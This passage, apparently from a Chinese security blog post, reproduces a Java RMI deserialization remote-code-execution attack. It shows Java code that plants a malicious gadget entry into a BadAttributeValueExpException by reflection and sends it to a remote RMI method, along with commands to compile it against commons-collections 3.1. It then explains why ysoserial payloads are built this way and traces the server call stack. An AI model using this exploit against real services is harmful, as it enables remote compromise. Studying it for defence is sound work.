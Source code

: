 ```java
		BadAttributeValueExpException val = new BadAttributeValueExpException(null);

        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val, entry);
		// ========================================================================
        
        String result = ss.hello(val);

        System.out.println(result);
    }        
}
```

**小提示1：**为了方便，Client端我没有创建java项目，因此编译过程需要指定classpath才能完成编译。Windows中gradle默认的jar包下载目录在`C:\Users\xxxx\.gradle\caches\modules-2\files-2.1\`中，因此编译语句与执行语句如下：

```powershell
## 编译过程
javac -cp C:\Users\xxxx\.gradle\caches\modules-2\files-2.1\commons-collections\commons-collections\3.1\40fb048097caeacdb11dbb33b5755854d89efdeb\commons-collections-3.1.jar;. HappyEnding.java

## 运行过程
java -cp C:\Users\xxxx\.gradle\caches\modules-2\files-2.1\commons-collections\commons-collections\3.1\40fb048097caeacdb11dbb33b5755854d89efdeb\commons-collections-3.1.jar;. HappyEnding
```

**小提示2：**之前在分析恶意Payload时有一点不太明白，就是有些恶意类看似可以直接装入集合类，但ysoserial的作者们却都选择了“先用正常数据初始化集合类，再用反射机制将恶意类对象替换入集合类”的方法。最初我以为是为了应对命令行参数，这次复现过程中我发现，如果采用直接装入集合类的方式，在有些情况下还没等序列化完成payload就被触发了，导致整个生成过程中断，所以大家采用了后一种方法。可能读者会不知所云，这里举个例子：

```java
// 以上面的代码段为例，如果不用分隔符中的那段代码
// 而是按我想当然的写法来做：
BadAttributeValueExpException val = new BadAttributeValueExpException(entry);

// 看似一句话就能将恶意entry送入BadAttributeValueExpException对象完成初始化
// 但在实际运行过程中，程序在初始化val对象时会先初始化entry对象，从而使payload在本地先执行
// 这不光会打断生成逻辑，试想本地是win系统，而被攻击者是linux系统
// 你要执行的代码在win下无法识别，此时程序就会报运行时错误，程序也无法到达发送序列化参数那一步
// 所以先用正常数据完成对象初始化，最后用反射机制填入恶意类对象的办法很管用
```

运行效果如图：

![](exp1.jpg)

实际在Server端的调用栈如下图：

![](Server_rdobj.jpg)

因为RCE肯定会执行到`BadAttributeValueExpException`的`ReadObject()`方法，所以在这里打了断点守着。

从图中可以看出大致的调用过程：线程池ThreadPool收到连接请求后，对传输数据TCPTransport解析识别，并对其中的数据进行反序列化`UnicastRef.unmashalValue()`，最后经过`java.io`的层层调用，到达了恶意类的`ReadObject()`方法，后面的调用过程这里不再赘述。
